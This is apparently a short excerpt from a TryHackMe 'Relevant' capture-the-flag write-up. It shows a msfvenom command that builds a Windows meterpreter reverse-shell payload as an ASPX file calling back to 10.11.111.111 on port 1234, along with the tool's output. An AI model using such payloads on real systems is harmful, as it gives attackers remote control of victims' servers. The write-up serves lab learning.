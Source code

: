 ![msfvenom](assets/img/tryhackme/relevant/03.png)


```bash
┌──(admin㉿PREDATOR-01)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.111.111 LPORT=1234 -f aspx -o reverse.aspx
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/admin/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
waiting for server to start.... done
server started
success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3651 bytes
Saved as: reverse.aspx
```

